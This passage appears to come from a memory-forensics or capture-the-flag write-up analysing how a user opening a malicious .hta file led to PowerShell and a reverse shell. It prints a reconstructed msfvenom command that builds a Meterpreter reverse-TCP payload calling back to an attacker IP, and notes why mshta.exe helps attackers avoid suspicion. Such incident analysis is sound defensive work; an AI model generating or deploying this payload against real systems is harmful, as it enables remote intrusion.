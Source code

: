 Now the scenario is starting to become clearer. The user downloaded a malicious file and made the mistake of opening it. A double click was all it took to run the malicious ".hta" file and spawn a powershell to run further commands and give the attacker a reverse shell. Now we have the malicious file too. 

We can see that the user opened the malware using explorer.

<img src="/images/sam/explorer.png">

".hta" files are automatically run using the "mshta.exe" program. It is very convenient for attackers as mshta.exe is a binary that is signed by microsoft hence reducing suspicion. 

To find how this payload was generated we can do a quick google search if we don't have much idea about msf-venom. In this case the flag "hta-psh" was used to create a malicious hta file that will spawn powershell. We can guess what the command for msf-venom would look like:

`msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.0.5 lport=80 -f hta-psh > sample_template.hta`

I also tried the "malfind" command of volatility but it was giving a lot of false positives.
Moving on we can answer the next question by either reading the fully decrypted payload or doing a quick google search again.

TO extract the payload I did some bash-fu and then decrypted it using Cyberchef. 
 
<img src="/images/sam/extractPayload.png" width="700">
